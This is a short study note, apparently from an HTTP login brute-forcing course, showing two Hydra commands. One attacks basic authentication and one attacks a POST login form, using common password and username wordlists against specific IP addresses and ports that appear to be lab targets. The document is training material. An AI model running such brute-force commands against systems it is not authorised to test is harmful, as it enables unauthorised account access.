






# Hydra

## GET







```bash
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

[Captura pendiente de revisión: Pasted image 20241004131840.png](../../Resources/Audit/media.csv)



## POST





```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 94.237.49.214 -s 37645 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

[Captura pendiente de revisión: Pasted image 20241004134809.png](../../Resources/Audit/media.csv)

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 13- Login Brute Forcing/2 - Hydra.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
